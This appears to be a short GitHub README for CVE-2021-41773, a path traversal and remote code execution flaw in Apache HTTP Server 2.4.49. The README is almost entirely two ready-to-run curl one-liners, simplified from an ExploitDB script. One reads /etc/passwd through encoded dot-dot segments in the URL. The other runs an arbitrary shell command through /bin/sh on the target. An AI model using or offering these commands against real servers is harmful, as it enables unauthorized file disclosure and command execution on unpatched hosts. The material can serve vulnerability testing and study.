 # CVE-2021-41773 - Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)

This is just a one liners simplification of the script from [ExploitDB](https://www.exploit-db.com/exploits/50383) 
```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; " "http://192.168.213.16/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

CMD=whoami
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $CMD" "http://192.168.213.16/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```

## References

[ExploitDB Exploit](https://www.exploit-db.com/exploits/50383) 
